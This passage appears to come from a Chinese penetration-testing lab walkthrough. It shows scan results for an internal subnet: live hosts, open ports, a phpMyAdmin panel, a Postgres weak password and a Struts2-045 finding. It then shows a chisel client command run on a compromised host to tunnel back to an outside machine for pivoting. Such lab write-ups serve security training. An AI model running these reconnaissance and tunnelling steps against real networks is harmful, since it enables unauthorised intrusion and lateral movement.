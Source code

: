 ```bash
start infoscan
(icmp) Target 172.56.102.1    is alive
(icmp) Target 172.56.102.2    is alive
(icmp) Target 172.56.102.3    is alive
(icmp) Target 172.56.102.4    is alive
[*] Icmp alive hosts len is: 4
172.56.102.4:9000 open
172.56.102.4:80 open
172.56.102.1:22 open
172.56.102.2:5432 open
172.56.102.3:8009 open
172.56.102.3:8080 open
[*] alive ports len is: 6
start vulscan
[+] FCGI 172.56.102.4:9000
Status: 403 Forbidden
X-Powered-By: PHP/8.2.8
Content-type: text/html; charset=UTF-8

Access denied.
[*] WebTitle http://172.56.102.4       code:200 len:19411  title:phpMyAdmin
[+] InfoScan http://172.56.102.4       [phpMyAdmin]
[+] Postgres:172.56.102.2:5432:postgres password
[*] WebTitle http://172.56.102.3:8080  code:200 len:90     title:$Title$
[+] PocScan http://172.56.102.3:8080 poc-yaml-struts2_045 poc1
```

## Net 172.56.102.0/24

```plaintext
phpMyAdmin - 172.56.102.4
Postgres - 172.56.102.2
Struts2 - 172.56.102.3
```

## phpMyAdmin 建立二层内网转发

由于二层内网无法直接连接到外网的代理隧道服务器，所以需要基于端口转发建立到二层内网的代理

手动分析网段的结构，绘制结构图

![img](img/image_20240751-145130.png)

根据结构图可以知道，需要在 `Thinkphp` 这台靶机上做一个端口转发，然后在 `phpMyAdmin` 上建立代理隧道

将 `chisel_1.9.1_linux_amd64` 二进制文件传输到 `phpMyAdmin` 上

建立端口转发

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 1331:1331
2024/07/25 06:53:43 client: Connecting to ws://192.168.200.129:1331
2024/07/25 06:53:43 client: tun: proxy#1331=>1331: Listening
2024/07/25 06:53:43 client: Connected (Latency 1.574777ms)
```
